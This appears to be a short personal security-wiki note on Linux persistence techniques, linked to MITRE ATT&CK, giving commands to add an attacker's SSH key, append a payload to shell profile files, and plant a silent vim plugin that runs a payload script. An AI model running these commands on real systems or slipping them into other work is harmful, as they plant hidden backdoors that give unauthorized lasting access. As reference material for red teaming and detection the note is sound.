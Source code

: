 ```yaml
---
title: Linux Persistence
---
```


[[notes/mitre-attack/persistence]] on [[notes/linux/index]].

# SSH

Append your own public key to `~/.ssh/authorized_keys`.

# Shell Profiles

Add a payload into one of the shell config files.
The command will be executed when the user opens an interactive shell (e.g. after login).

~~~ bash
echo $payload >> ~/.profile
echo $payload >> ~/.bashrc
echo $payload >> ~/.bash_profile
echo $payload >> ~/.zshrc
echo $payload >> ~/.zprofile
~~~

# Editors

Add a `vim` plugin to execute a command when `vim` is opened.

~~~ bash
mkdir -p ~/.vim/plugin && echo $payload > ~/.vim/plugin/yy.sh && echo 'silent !source ~/.vim/plugin/yy.sh' > ~/.vim/plugin/yy.vim
~~~
